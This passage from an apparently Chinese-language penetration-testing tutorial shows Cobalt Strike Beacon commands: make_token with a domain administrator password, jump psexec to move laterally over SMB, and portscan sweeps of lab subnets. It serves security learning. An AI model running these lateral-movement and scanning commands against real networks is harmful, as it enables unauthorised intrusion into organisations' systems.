 输入已经获得了域用户的账号密码和域名，点击Build



![](https://img-blog.csdnimg.cn/20210322105917188.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



日志框内的记录，所以也可以直接输入命令



```
rev2self  #这一步可以省略      
make_token xie\administrator P@ssword123      
jump psexec 192.168.106.10 smb      
unlink 192.168.106.10  #取消连接
```




![](https://img-blog.csdnimg.cn/20210322105806251.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 端口扫描



右键——>目标——>端口扫描，然后填入要扫描的端口和网段。这里我们也可以直接执行命令：



```
portscan 192.168.10.1-192.168.10.10 22,445 arp  1024      
portscan 192.168.10.1-192.168.10.10 22,445 icmp 1024      
portscan 192.168.10.1-192.168.10.10 22,445 none 1024       
一般我们直接运行命令      
portscan 192.168.1.0/24 22,445,1433,3306
```




![](https://img-blog.csdnimg.cn/20200524093239281.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200523233832973.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200523233910873.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



扫完了之后，直接在控制台就会有结果。



![](https://img-blog.csdnimg.cn/20200523234929774.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我们点击视图——>目标，就会出现网段中存活的主机。(这是通过端口扫描探测到的结果显示的，要想这里显示，必须得先进行扫描端口)
